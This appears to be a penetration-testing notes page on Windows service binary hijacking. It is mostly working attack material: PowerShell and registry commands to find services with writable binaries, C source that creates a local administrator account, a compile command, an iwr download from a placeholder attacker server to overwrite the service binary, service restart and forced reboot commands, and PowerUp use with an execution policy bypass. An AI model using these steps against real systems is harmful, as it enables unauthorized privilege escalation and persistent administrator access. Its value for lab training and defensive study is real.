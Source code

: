 ```yaml
---
description: >-
  This attack involves replacing the service binary with a malicious version and
  restart the service.
---
```


# Service Binary Hijacking

## Enumerate Services

### PowerShell cmdlet

Using `Get-CimInstance` with PowerShell to list running services and filter built in services:

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running' -and $_.PathName -notlike "C:\Windows\system32*"}
```
{% endcode %}

{% hint style="warning" %}
When running **`Get-CimInstance`** and **`Get-Service`** via **WinRM** or a **bind shell** will result in a "Access denied" error when querying for services with a **non-administrative user**. \
Using an interactive logon such as **RDP** solves this problem.
{% endhint %}

### **Registry**

The following **one-liner command** was taken from [evil-winrm](https://github.com/Hackplayers/evil-winrm/blob/master/evil-winrm.rb) source code and uses the registry to enumerate services.

**Note: this is very useful when using low privileged user.**

{% code overflow="wrap" %}
```powershell
$servicios = Get-ItemProperty "registry::HKLM\System\CurrentControlSet\Services\*" | Where-Object {$_.imagepath -notmatch "system" -and $_.imagepath -ne $null } | Select-Object pschildname,imagepath  ; foreach ($servicio in $servicios  ) {Get-Service $servicio.PSChildName -ErrorAction SilentlyContinue | Out-Null ; if ($? -eq $true) {$privs = $true} else {$privs = $false} ; $Servicios_object = New-Object psobject -Property @{"Service" = $servicio.pschildname ; "Path" = $servicio.imagepath ; "Privileges" = $privs} ;  $Servicios_object
}
```
{% endcode %}

## **Enumerate Binary Permissions**

Verifying the permission to modify the binary:

```batch
icacls "<binary_path>"
```

The table below describes the permissions definitions **`icacls`** results:

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

## Creating The Malicious Binary

The C code you provided appears to add a new user `<user>`  with the password `password123!` to the system and elevate it to administrator:

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user <user> password123! /add");
  i = system ("net localgroup administrators <user> /add");
  
  return 0;
}
```

Compiling this C code to create an executable:

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

Moving the legitimate service's binary, in order to be able to replace with the malicious one:

```batch
move <binary_path> <somepath>
```

Transferring the executable from the attacker machine:

```powershell
iwr -uri http://<attacker_http_server>/adduser.exe -Outfile <binary_path>
```

## **Triggering the Execution**

In order to trigger the malicious binary execution it's needed to either restart the service manually or If the service is set to start automatically, it possible to reboot the machine to force the service to start.\
Once the service restarts, the malicious binary will be executed.

Checking the Service Permissions:

```batch
sc sdshow <service_name>
```

### Manual restart

Trying to restart the service:

{% tabs %}
{% tab title="Batch" %}
```batch
net stop <service_name>
net start <service_name>
```
{% endtab %}

{% tab title="PowerShell" %}
```powershell
Stop-Service <Service_name>
Start-Service <Service_name>
```
{% endtab %}
{% endtabs %}

### Automatic restart

If restarting the service is not allowed, trying the another method as described above:

1. Checking if the service set to restart automatically:

```batch
sc query <service_name>
```

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<service_name>'}
```
{% endcode %}

2. Checking if the current user (foothold) has the **`SeShutdownPrivilege`** permission which allows to reboot the machine&#x20;

```batch
whoami /priv
```

3. Rebooting the machine&#x20;

`/r` - Reboot instead of shutdown.

`/t 0` - Trigger in 0 seconds.

```batch
shutdown /r /t 0
```

## Automated Process

It is possible to automate the process using well known tool called `PowerUp` from `PowerSploit` Collection:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

Downloading PowerUp.ps1:

```powershell
iwr -uri http://<attacker_http_server>/PowerUp.ps1 -Outfile PowerUp.ps1
```

Bypassing Execution Policy:

```batch
powershell -ep bypass
```

Importing PowerUp.ps1:

```powershell
. .\PowerUp.ps1
```

Finding Modifiable Services using **`Get-ModifiableServiceFile`** is a `PowerUp` function that looks for services on the machine whose executables are modifiable by the current user.

```powershell
Get-ModifiableServiceFile
```

Exploiting:

```powershell
Install-ServiceBinary -Name '<service_name>'
```

## References

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-query" %}
Sc.exe query
{% endembed %}
